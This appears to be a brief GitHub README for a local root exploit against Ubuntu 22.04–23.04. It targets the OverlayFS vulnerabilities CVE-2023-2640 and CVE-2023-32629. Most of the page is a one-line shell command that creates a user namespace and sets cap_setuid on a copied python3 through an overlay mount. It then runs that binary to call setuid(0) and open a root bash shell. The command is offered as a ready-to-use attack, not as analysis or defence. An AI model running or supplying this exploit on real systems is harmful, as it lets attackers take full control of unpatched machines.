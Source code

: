 Linux kernel privilege escalation vulnerability, native to ubuntu allow for attackers to use the benefits of OverlayFS to make files with special capabilities to gain root.

Vulnerable versions : Ubuntu 22.04, 22.10, 23.04
CVE-2023-2640 && CVE-2023-32629


```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```